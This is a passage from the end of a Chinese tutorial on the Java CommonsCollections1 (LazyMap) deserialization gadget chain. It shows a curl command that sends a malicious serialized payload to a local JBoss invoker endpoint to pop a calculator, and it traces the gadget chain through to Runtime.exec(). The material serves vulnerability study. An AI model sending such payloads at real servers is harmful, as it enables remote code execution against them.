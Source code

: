 ```java
}
```

向一个存在反序列化漏洞且 JDK 版本小于 8u71 的 Jboss 环境发送如上生成的恶意序列化数据，成功弹出计算器。

```shell
curl -H "Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue" --data-binary "@cc1-lazymap.ser" <http://localhost:8080/invoker/readonly>
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/f344bfc4-fe5e-4de8-ab2d-bda457adf644/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=043b144546d9471c275ddd424856d43bb028682576e8c730fc9bbb3ebf59e6c2&X-Amz-SignedHeaders=host&x-id=GetObject)

如下是完整 Gadget 调用链。

```text
AnnotationInvocationHandler.readObject()
    Map(Proxy).entrySet()
        AnnotationInvocationHandler.invoke()
            LazyMap.get()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Class.getMethod()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.getRuntime()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.exec()
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/38fd49d7-78c9-445a-bc32-081c40747395/r.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=9145fe87176ac2c7ac28658c4d0763ab31fd42907f55975dd4382fc3185834c5&X-Amz-SignedHeaders=host&x-id=GetObject)

## Debug 导致的小问题

如上 POC 在调试时，在进行序列化时就会弹出计算器，有时候甚至会弹出两个计算器，这些情况在直接运行的情况下反倒不会出现。这其实是由于在本地调试代码时，调试器会调用一些 toString 等方法，这样便触发了 invoke 的调用，从而导致命令执行。有一种非常简单的方式来避免这种行为，在 IDEA 中关闭如下两项即可。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/ed230666-b6ae-49e1-80b1-3af2fa166054/2.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=78a795f0c370b4a5d0327333f46aa6fc575bba661e575423297df50b926563b9&X-Amz-SignedHeaders=host&x-id=GetObject)

## 参考

- [https://0xf4n9x.github.io/java-deserialization-vulnerability-principle](https://0xf4n9x.github.io/java-deserialization-vulnerability-principle)
- [https://0xf4n9x.github.io/java-deserialization-cc1-transformedmap](https://0xf4n9x.github.io/java-deserialization-cc1-transformedmap)
- [https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java)
- [https://mp.weixin.qq.com/s/d5UvL065Lc1WXhsRmb92qw](https://mp.weixin.qq.com/s/d5UvL065Lc1WXhsRmb92qw)
